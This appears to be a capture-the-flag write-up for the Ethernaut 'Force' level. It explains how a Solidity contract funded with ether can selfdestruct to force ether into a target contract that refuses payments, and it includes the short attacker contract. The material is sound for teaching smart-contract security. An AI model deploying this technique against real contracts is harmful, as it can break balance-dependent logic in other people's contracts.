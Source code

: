 # [Force](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

This contract is supposedly not accepting any paymnets. Well, it is possible to force money in a contract by `selfdestruct`'ing a contract with some balance, with the target contract as the address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

  constructor() payable {
  }

  function pwn(address _target) public {
    selfdestruct(payable(_target));
  }

  receive() external payable {}
  fallback() external payable {}
}
```

We create the above contract with some small amount of ether, and then call the `pwn` function to let it `selfdestruct` and transfer all of its balance to the target contract.
